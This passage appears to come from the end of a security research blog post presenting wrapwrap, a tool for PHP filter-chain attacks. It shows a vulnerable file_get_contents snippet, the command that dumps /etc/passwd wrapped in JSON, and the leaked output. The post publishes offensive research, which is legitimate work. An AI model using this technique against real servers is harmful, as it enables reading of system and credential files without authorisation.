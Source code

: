 We get: `U0VWQULTQ0TV`, which decodes to `SEVAB�CD�`. If we base64-decode and encode, we get `SEVABCD`.

We can now **add a suffix of arbitrary size**!

# Using wrapwrap

Say you have code like so:

```bash
$data = file_get_contents($_POST['url']);
$data = json_decode($data);
echo $data->message;
```

To obtain the contents of some file, we'd like to have: `{"message":"<file contents>"}`. This can be done using:

```bash
$ ./wrapwrap.py /etc/passwd '{"message":"' '"}' 1000
[*] Dumping 1008 bytes from /etc/passwd.
[+] Wrote filter chain to chain.txt (size=705031).
```

This yields:

```bash
{"message":"root:x:0:0:root:/root:/bin/bash=0Adaemon:..."}
```

# Conclusion

This is another improvement on the PHP filter attacks: we can now add a prefix **and a suffix** to any resource. Beware of the size of your payload, however: it gets pretty big, pretty fast. Dumping *3300* bytes from a file require a payload of 2 megabytes. Luckily, it should not be too much of a problem if the controlled URL is sent through POST.

We deliberately left lots of details and optimisations out of the blog post to keep it concise. Don't hesitate to read the code of *wrapwrap* if you want to know how it really works, and help improve it.

The [GitHub repository is here](https://github.com/ambionics/wrapwrap).

# We're hiring!

Ambionics is an entity of [Lexfo](https://www.lexfo.fr/), and we're hiring! To learn more about job opportunities, do not hesitate to contact us at [rh@lexfo.fr](mailto:rh@lexfo.fr). *We're a french-speaking company, so we expect candidates to be fluent in our beautiful language.*
